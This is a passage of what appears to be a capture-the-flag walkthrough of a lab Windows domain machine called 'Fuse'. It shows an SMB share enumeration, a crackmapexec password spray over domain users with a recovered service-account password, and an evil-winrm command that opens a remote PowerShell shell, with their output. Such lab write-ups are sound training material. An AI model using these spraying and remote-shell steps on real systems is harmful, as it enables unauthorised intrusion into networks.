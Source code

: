 

    root@kali# smbmap -H 10.10.10.193 -u svc-print -p '$fab@s3Rv1ce$1'
    [+] IP: 10.10.10.193:445        Name: fuse.fabricorp.local                              
            Disk                                                    Permissions     Comment
            ----                                                    -----------     -------
            ADMIN$                                                  NO ACCESS       Remote Admin
            C$                                                      NO ACCESS       Default share
            HP-MFT01                                                NO ACCESS       HP-MFT01
            IPC$                                                    READ ONLY       Remote IPC
            NETLOGON                                                READ ONLY       Logon server share 
            print$                                                  READ ONLY       Printer Drivers
            SYSVOL                                                  READ ONLY       Logon server share  



### Shell

I spent a while trying to enumerate shares with these new users and not
finding much. Eventually I tried WinRM, and it turns out that svc-print
can PowerShell remote:



    root@kali# crackmapexec winrm 10.10.10.193 -u users -p '$fab@s3Rv1ce$1' --continue-on-success
    WINRM       10.10.10.193    5985   FUSE             [*] Windows 10.0 Build 14393 (name:FUSE) (domain:fabricorp.local)
    WINRM       10.10.10.193    5985   FUSE             [*] http://10.10.10.193:5985/wsman
    WINRM       10.10.10.193    5985   FUSE             [-] fabricorp.local\pmerton:$fab@s3Rv1ce$1
    WINRM       10.10.10.193    5985   FUSE             [-] fabricorp.local\tlavel:$fab@s3Rv1ce$1
    WINRM       10.10.10.193    5985   FUSE             [-] fabricorp.local\sthompson:$fab@s3Rv1ce$1
    WINRM       10.10.10.193    5985   FUSE             [-] fabricorp.local\bhult:$fab@s3Rv1ce$1
    WINRM       10.10.10.193    5985   FUSE             [-] fabricorp.local\administrator:$fab@s3Rv1ce$1
    WINRM       10.10.10.193    5985   FUSE             [-] fabricorp.local\Guest:$fab@s3Rv1ce$1
    WINRM       10.10.10.193    5985   FUSE             [-] fabricorp.local\krbtgt:$fab@s3Rv1ce$1
    WINRM       10.10.10.193    5985   FUSE             [-] fabricorp.local\DefaultAccount:$fab@s3Rv1ce$1
    WINRM       10.10.10.193    5985   FUSE             [+] fabricorp.local\svc-print:$fab@s3Rv1ce$1 (Pwn3d!)
    WINRM       10.10.10.193    5985   FUSE             [-] fabricorp.local\bnielson:$fab@s3Rv1ce$1
    WINRM       10.10.10.193    5985   FUSE             [-] fabricorp.local\sthompson:$fab@s3Rv1ce$1
    WINRM       10.10.10.193    5985   FUSE             [-] fabricorp.local\tlavel:$fab@s3Rv1ce$1
    WINRM       10.10.10.193    5985   FUSE             [-] fabricorp.local\svc-scan:$fab@s3Rv1ce$1
    WINRM       10.10.10.193    5985   FUSE             [-] fabricorp.local\dandrews:$fab@s3Rv1ce$1
    WINRM       10.10.10.193    5985   FUSE             [-] fabricorp.local\mberbatov:$fab@s3Rv1ce$1
    WINRM       10.10.10.193    5985   FUSE             [-] fabricorp.local\astein:$fab@s3Rv1ce$1
    WINRM       10.10.10.193    5985   FUSE             [-] fabricorp.local\dmuir:$fab@s3Rv1ce$1



[Evil-WinRM](https://github.com/Hackplayers/evil-winrm) will provide a
shell:



    root@kali# evil-winrm -i 10.10.10.193 -u svc-print -p '$fab@s3Rv1ce$1'
